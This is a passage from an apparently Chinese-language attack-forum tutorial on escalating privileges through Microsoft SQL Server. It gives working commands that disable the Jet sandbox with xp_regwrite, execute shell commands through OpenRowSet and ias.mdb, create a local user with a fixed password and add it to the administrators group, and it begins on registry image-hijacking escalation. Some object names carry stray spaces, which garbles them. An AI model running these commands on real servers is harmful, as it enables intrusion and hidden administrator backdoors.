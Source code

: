 ![2s4D0J.png](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-795bb1ba26bdaf5a0e6f539ce27dd9f84eb2a41c.png)

查看命令：

```php
exec master.dbo.xp_regread 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Jet\4.0\Engines', 'SandBoxMode'
```

关闭命令：

```php
exec master..xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Jet\4.0\Engines','SandBoxMode','REG_DWORD',2
```

##### Ⅳ 执行命令

```php
Select * From OpenRowSet('Microsoft.Jet.OLEDB.4.0',';Datab ASe=c:\windows\system32\ias\ias.mdb','select shell("cmd.exe /c whoami >c:\\sqltest.txt ")');
```

在win2003的c盘上看到已经创建了该文件，命令执行成功

![2s4Bm4.png](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-b3bf2532a83c2072303157796a4a4b629d0eeddb.png)

同样，可以创建用户

```sql
Select * From OpenRowSet('Microsoft.Jet.OLEDB.4.0',';Datab ASe=c:\windows\system32\ias\ias.mdb','select shell("net user testq QWEasd123 /add")');

Select * From OpenRowSet('microsoft.jet.oledb.4.0',';Datab ASe=c:\windows\system32\ias\ias.mdb','select shell("net localgroup administrators testq /add")');

Select * From OpenRowSet('microsoft.jet.oledb.4.0',';Datab ASe=c:\windows\system32\ias\ias.mdb','select shell("net user testq")');
```

### 4、使用xp\_regwrite提权 | 映像劫持提权

> 2008以上，05未测试

#### 1）xp\_regwrite提权简介

通过使用`xp_regwrite`存储过程对注册表进行修改，替换成任意值，造成镜像劫持。

前提条件：

1. 未禁止注册表编辑（即写入功能）
2. xp\_regwrite启用

#### 2）映像劫持提权

##### Ⅰ 查看xp\_regwrite是否启用

```sql
select count(*) from master.dbo.sysO bjects where xtype='x' and name='xp_regwrite'
```
